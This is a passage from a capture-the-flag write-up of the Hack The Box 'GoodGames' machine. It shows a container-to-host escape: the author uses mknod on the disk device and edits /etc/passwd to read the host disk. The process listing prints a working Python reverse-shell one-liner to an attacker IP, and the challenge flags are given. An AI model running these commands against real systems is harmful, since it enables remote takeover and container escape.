 

##
#
https://radboudinstituteof.pwning.nl/posts/htbunictfquals2021/goodgames/
#
##

   Unintended3 path for privilege escalation
Now we have to make a decision: we can try to solve it the easy way, or we can try to solve it the difficult way. Naturally I decided to go for the difficult way.4

We have the following situation:

Root in the Docker
User in the host
I searched online for a privilege escalation method for this and I found the following article.

It described a way of being able to read /dev/sda using the mknod command. I decided to exactly reproduce the following image of the blog:5



Get another reverse shell in docker as root (send the Burp request again with a different port)
Run mknod sda b 8 0, chmod 777 sda, add augustus and su to augustus to open a /bin/sh session in the Docker:
# cd /
cd /
# mknod sda b 8 0
mknod sda b 8 0
# chmod 777 sda
chmod 777 sda
```
# echo "augustus:x:1000:1000:augustus,,,:/home/augustus:/bin/bash" >> /etc/passwd
echo "augustus:x:1000:1000:augustus,,,:/home/augustus:/bin/bash" >> /etc/passwd
# su augustus
su augustus
su: Authentication failure
(Ignored)
augustus@3a453ab39d3d:/backend$ /bin/sh
/bin/sh
$ 
On the host check the process ID of the /bin/sh shell in the Docker:
augustus@GoodGames:~$ ps -auxf | grep /bin/sh
root      1496  0.0  0.0   4292   744 ?        S    09:30   0:00      \_ /bin/sh -c python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
root      1627  0.0  0.0   4292   756 ?        S    09:44   0:00      \_ /bin/sh -c python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
augustus  1659  0.0  0.0   4292   712 ?        S+   09:48   0:00                          \_ /bin/sh
augustus  1661  0.0  0.0   6116   648 pts/0    S+   09:48   0:00              \_ grep /bin/sh
The process ID is 1659 in this case
Grep for the sda for HTB{ through the process:
augustus@GoodGames:~$ grep -a 'HTB{' /proc/1659/root/sda 
HTB{7h4T_w45_Tr1cKy_1_D4r3_54y}
HTB{M0un73d_F1l3_Sy57eM5_4r3_DaNg3R0uS}
```
grep: memory exhausted
augustus@GoodGames:~$ 
And this gives both flags after a short amount of time.

The --exclude-length was required since the website always respond with a 200 status code while it is actually a 404 ↩︎

This payload is copied from the “Exploit the SSTI by calling Popen without guessing the offset” payload at Hacktricks. In my experience, this one works the best. ↩︎

I shared this method in the Discord and there I heard that this was not the intended way of getting the root flag ↩︎

Actually, I did not really think of copying /bin/bash to the home directory of augustus, setting the SUID bit, changing owner to root and run the binary as augustus on the host so you end up with an easy privilege escalation. This would have been the easy path. ↩︎

On the left you can see the shell in the Docker container. On the right the shell in the host. ↩︎

